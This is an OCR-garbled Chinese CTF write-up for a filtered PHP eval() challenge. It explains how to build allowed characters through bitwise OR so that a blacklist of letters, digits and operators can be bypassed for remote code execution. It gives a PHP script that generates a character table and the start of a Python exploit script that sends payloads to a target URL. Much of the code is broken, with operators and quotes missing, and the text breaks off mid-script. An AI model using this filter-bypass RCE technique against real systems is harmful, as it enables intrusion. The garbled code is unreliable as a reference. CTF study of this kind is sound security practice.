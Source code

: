 if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('[0-9][a-z]^+~$[]{}&-i', $c)){
        eval(echo($c););
    }
}else{
    highlight_file(__FILE__);
}

这个题过滤了$、+、-、^、~使得异或自增和取反构造字符都无法使用，同时过滤了字母和数字。但是特意留了个或运算符。我们可以尝试从ascii为0-255的字符中，找到或运算能得到我们可用的字符的字符。这里先给出两个脚本 exp.py rce_or.php，大家以后碰到可以使用或运算绕过的可以自己手动修改下即可。生成可用字符的集-合

php
$myfile = fopen(rce_or.txt, w);
$contents=;
for ($i=0; $i  256; $i++) { 
	for ($j=0; $j 256 ; $j++) { 

		if($i16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '[0-9][a-z]^+~$[]{}&-i';
		if(preg_match($preg , hex2bin($hex_i))preg_match($preg , hex2bin($hex_j))){
					echo ;
	}
	  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)urldecode($b));
		if (ord($c)=32&ord($c)=126) {
			$contents=$contents.$c. .$a. .$b.n;
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
大体意思就是从进行异或的字符中排除掉被过滤的，然后在判断异或得到的字符是否为可见字符传递参数getflag用法python exp.py url

# -- coding utf-8 --
import requests
import urllib
from sys import 
import os
os.system(php rce_or.php)  #没有将php写入环境变量需手动运行
if(len(argv)!=2)
   print(=50)
   print('USER：python exp.py url')
   print(eg：  python exp.py httpctf.show)
   print(=50)
   exit(0)
url=argv[1]
def action(arg)
   s1=